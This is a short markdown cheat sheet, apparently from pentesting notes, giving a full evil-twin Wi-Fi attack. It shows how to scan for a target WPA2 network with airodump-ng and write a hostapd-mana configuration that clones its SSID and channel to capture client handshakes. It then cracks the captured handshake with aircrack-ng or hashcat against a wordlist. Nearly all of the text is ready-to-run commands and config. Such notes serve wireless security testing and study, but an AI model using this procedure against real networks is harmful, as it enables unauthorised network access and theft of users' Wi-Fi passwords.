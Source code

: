 ## Rogue Access Point

```text
sudo apt install hostapd-mana
```

```text
sudo airodump-ng wlan0mon

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID 
11:22:33:44:55:66  -68       12        1    0   1  130   WPA2 CCMP   PSK  linksys
```

At this point we know the following about our target AP:


It has an ESSID of linksys

It has a BSSID of 11:22:33:44:55:66

It uses WPA2 (TKIP/CCMP) (and probably WPA (TKIP/CCMP))

It uses a auth of PSK

It runs on channel 1


#### Create Configuration file
```text
cat linksys-mana.conf

interface=wlan0
ssid=linksys
channel=1
hw_mode=g
ieee80211n=1
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/<name>/linksys.hccapx
```

#### Start Access Point
```text
sudo ip link set wlan0 up	
sudo hostapd-mana linksys-mana.conf
```

Wait for a capture of a WPA/2 handshake in output


#### Crack!
```text
aircrack-ng linksys.hccapx -e linksys -w /usr/share/john/password.lst

or ...

hcxhash2cap --hccapx=linksys.hccapx -c out.cap
hcxpcapngtool -o hash.hc22000 -E wordlist out.cap
hashcat -m 22000 hash.hc22000 /usr/share/john/password.lst
```text



